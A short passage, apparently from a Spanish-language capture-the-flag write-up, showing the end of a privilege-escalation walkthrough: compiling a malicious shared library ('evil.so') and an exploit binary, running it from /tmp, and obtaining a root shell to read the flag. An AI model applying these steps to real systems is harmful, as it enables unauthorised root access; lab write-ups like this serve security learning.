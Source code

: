 ```c
    return 0;
}
```

> Una vez creados los compilamos

```bash
gcc -shared -o evil.so -fPIC evil-so.c
```

```bash
 gcc exploit.c -o exploit
```

> Por último lanzamos el exploit

```bash
rohit@responder:/tmp$ ./exploit
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

Y porfin somos root y podemos leer la flag root.txt


